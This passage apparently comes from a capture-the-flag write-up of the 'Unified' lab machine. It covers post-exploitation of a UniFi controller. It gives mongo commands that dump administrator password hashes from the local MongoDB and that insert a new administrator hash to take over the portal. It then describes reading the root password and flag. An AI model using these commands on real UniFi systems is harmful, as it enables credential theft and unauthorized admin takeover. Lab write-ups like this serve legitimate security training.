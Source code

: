 The [post-exploitation part](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#postexploitationcrackinghashes) of the article refers to a mongodb DBMS[^3] from which we can dump password hashes from. Let's check if we can do that (Figure 5).

```bash
# Dumping the password hashes
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

<figure><img src="../../../.gitbook/assets/unified_dump.png" alt=""><figcaption><p>Figure 5: Dumping hashes from the mongodb database.</p></figcaption></figure>

Next, according to the [article](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#postexploitationshadowadmin), we can encrypt a new password (Figure 6.1) and use it to change the `administrator`'s password (Figure 6.2), so we can then use it to log in into the UniFi portal as a privileged user (Figure 7).

{% code overflow="wrap" %}
```bash
# Encrypting the new password
mkpasswd -m sha-512 Password123!
# Changing the administrator's password
mongo --port 27117 ace --eval 'db.admin.insert({ "email" : "administrator@unified.htb", "last_site_name" : "default", "name" : "administrator", "time_created" : NumberLong(100019800), "x_shadow" : "$6$Zpy/bK4oaMXbjkwG$gPVsT76.dDkLpzgvEZm39v2kvkqfytwFzuzOHOW5MmkgFtN9UXDbg0FZ58hckZEq2g83mE9bWNqXDi6itVvd91" })'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/unified_change_pass.png" alt=""><figcaption><p>Figure 6: Changing the <code>administrator</code>'s password.</p></figcaption></figure>

### UniFi Enumeration

By enumerating the UniFi portal, we can find the `root`'s plaintext password (Figure 7) which we can use right away and read the `root.txt` flag 🚩 (Figure 8).


[^1]: Proof of Concept
[^2]: Remote Command Execution
[^3]: Database Management System
